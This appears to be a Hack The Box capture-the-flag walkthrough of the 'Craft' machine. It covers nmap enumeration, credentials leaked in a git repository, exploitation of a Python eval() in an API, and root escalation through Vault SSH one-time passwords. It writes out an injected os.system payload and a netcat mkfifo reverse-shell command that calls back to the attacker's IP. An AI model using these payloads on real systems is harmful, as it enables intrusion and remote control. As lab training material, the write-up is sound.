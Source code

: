 # 						  Craft - Hack The Box WalkThrough

### Victim IP: 10.10.10.110 Victim OS: Linux
### Enumeration - Namp
```
nmap -sV -sC -oA nmap_full -p1,65535 10.10.10.110
Nmap scan report for 10.10.10.110
Host is up (0.13s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
|_  256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (ED25519)
443/tcp  open  ssl/http nginx 1.15.8
|_http-server-header: nginx/1.15.8
|_http-title: About
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Not valid before: 2019-02-06T02:25:47
|_Not valid after:  2020-06-20T02:25:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
6022/tcp open  ssh      (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
| ssh-hostkey: 
|_  2048 5b:cc:bf:f1:a1:8f:72:b0:c0:fb:df:a3:01:dc:a6:fb (RSA)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port6022-TCP:V=7.80%I=7%D=12/19%Time=5DFC45CB%P=x86_64-pc-linux-gnu%r(N
SF:ULL,C,"SSH-2\.0-Go\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 19 22:54:28 2019 -- 1 IP address (1 host up) scanned in 47.95 seconds   
```
### Enumerating the web page - https://craft.htb
![homepage](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/1_test.py.png)

The "API" link points to api.craft.htb and the "Sign in" button to "gogs.craft.htb" therefore we add these as entries to our hosts file in other to be able to resolve and reach them.

### Enumeration - https://api.craft.htb
Small API with basic GET, POST, PUT, DELETE actions, might be an interesting point of entry.
Authentication required for POST, PUT
![api_craft](/images/api_craft.png)

### Enumeration - https://gogs.craft.htb
![gogs](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/gogs_craft.png)
Repository housing the code and content for api.craft.htb:
![commits](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/craft_api_repo.png)
Reviewing all issues,commits and merge requests, dinesh’s credentials were accidentally commited and removed: 
![dinesh_creds](https://github.com/zomy22/zomy22.github.io/tree/master/hackthebox/craft_images/dinesh_creds.png)
The issue fix by dinesh also shows a dangerous python function (eval):
![eval_in_issue_fix](https://github.com/zomy22/zomy22.github.io/tree/master/hackthebox/craft_images/eval_in_issue_fix.png)
The eval command resides in the POST brew function in brew.py and accepts user input.

The discovered credentials can be used in test.py
![1_test.py](https://github.com/zomy22/zomy22.github.io/tree/master/hackthebox/craft_images/1_test.py.png)


### Initial foothold - Exploiting python eval function
Test 1: On local system:
![Test 1](https://github.com/zomy22/zomy22.github.io/tree/master/hackthebox/craft_images/test1.png )

That works.
Test 2: with a similar "if" statement like in test.py:
![Test 2](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/test2.png)

That works too, however there is no result returned when it is tried on the victim end.

Test 3: Ping from victim to local machine:
tcpdump -i tun0 -nnv icmp
Payload (test.py): 
```brew_dict['abv'] = '__import__("os").system("ping -c 3 10.10.14.4")' ```
 
Test 4. Reverse shell (http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):
Several failed till the netcat (without -e) option.

The payload in __test.py__ becomes: 
```brew_dict['abv'] = '__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 4445 >/tmp/f")'```

![Test 4](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/test3.png)

It's says root! Well that was easy! 
But wait no user.txt or root.txt flags. Of course it couldn’t be that easy 

Running "cat /etc/issue", LinEnum and linuxprivchecker again show that we are in a docker container
Release: Alpine Linux 3.9

### Obtaining User privileges  – user.txt
Dump database credentials – dbtest.py
![dbtest.py](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/dbtest.py.png)

Modify the SQL in the try statement to select all users from the database
![db_dump](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/dump_users.png)

Authenticate with discovered credentials and enumerate the git repository
All commits/merge requests ==> ssh private key, vault write commands …
<screenshot>
  
For now authenticate with the SSH private key and enter gilfoyle’s password (dumped from the db/git password) as passphrase

### Elevating to root – Leveraging Vault SSH Secrets Engine
After obtaining user access on the machine more enumeration is required to discover interesting escalation vectors. Running linuxenum and privesc scripts did not recover any vulnerabilities right away but did point out the vault write.

### Exploring vault:
![vault_secrets](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/vault_secrets_list.png)

Gilfoyle’s OTP setup:

![otp_setup](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/vault_write_ssh_otp.png)

Reviewing the SSH Secrets Engine Documentation: https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html 
gilfoyle@craft:~$ vault write ssh/creds/root_otp ip=127.0.0.1
![vault_write_ssh_otp](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/vault_write_ssh_otp_new.png)

Then SSH to the host using the generated key and the root user:
![root.txt](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/root.txt.png)

Conclusion:
This machine simulates a lot of real world scenarios. I was delighted at every discovery, learned a lot and reminded myself once again the importance of enumeration during a penetration test.
